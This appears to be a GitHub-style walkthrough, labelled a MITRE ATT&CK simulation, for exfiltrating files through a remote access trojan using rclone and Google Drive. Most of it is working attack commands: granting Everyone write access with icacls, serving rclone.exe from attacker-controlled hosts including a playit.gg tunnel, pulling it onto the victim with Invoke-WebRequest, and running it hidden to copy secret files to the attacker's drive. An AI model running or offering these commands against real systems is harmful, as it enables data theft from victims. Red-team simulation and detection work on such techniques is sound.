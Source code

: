 ## MITRE ATT\&CK Exfiltration Simulation via Google Drive using **rclone**

We can exfiltrate data using RAT's built-in download functionality already, it will then save into **E:\Hacking\Tools\Revenge-RAT v0.3\Users\User_name\downloads**. But to simulate it through powershall I deep dive into this. I tried many ways, I tried to build a http server using flask, and then through port forwarding, I tried to send files there. But as the RAT doesn't have write access thats why I didn't manage to do it then. Then I tried to do it directly via Google Drive, but I faced typos there. Then I tried rclone, to do so, it is better to use your own drive. And for this,s I followed **https://console.cloud.google.com/auth/clients?inv=1&invt=AbxtVQ&project=theta-totem-446705-j3** this link, to get the client id and client secret, then I use it later while setting rclone. Here are the following steps to do exfiltration:

### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with Google Drive**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `myStorage`
3. Choose storage type: `drive` (20 for Google Drive)
4. Follow the prompts to authenticate via browser (use your Google account).
5. At the end, type `y` to confirm, then `q` to quit.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From the attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
# Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\PublicRAT\rclone.conf"
```

```powershell
Invoke-WebRequest -Uri "http://192.168.113.226:8000/rclone.exe" -OutFile "C:\NewRAT\rclone.exe"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
```

Notes:

* `myStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check Google Drive**

Your file (e.g., `secret.txt`) should now appear in the root of your Google Drive. You need to wait for some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to Google Drive          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |


### Full process using port forwarding 

* Start the playit.gg both from homescreen and the playit-0.9.3-signed from **E:\Hacking\Tools\PlayIt.gg**
* E.g., start the server from **E:\Hacking\rclone-v1.69.2-windows-amd64\rclone-payload** :
   ```bash
   python -m http.server 1335
   ```
* Then do the following:
  ```powershall
  mkdir C:\PublicRAT
  icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
  ```
  
  Now your RAT shell should be able to **write files there**, e.g.:
  
  ```cmd
  cmd.exe /c echo Hello > C:\PublicRAT\test.txt
  ```
* If the **test.txt** successfully writes in that location, then first direct upload the latest `rclone.conf` in `C:\PublicRAT\`. Then do the following in RAT shell:

  ```powershell
  Invoke-WebRequest -Uri "http://silver-generate.gl.at.ply.gg:22366/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
  ```
* Then transfer data using the following convention:
  ```powershell
  Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" myStorage:/ --config "C:\PublicRAT\rclone.conf"'
  ```
* Check your BSSE drive and click recent, you will get the desired file.
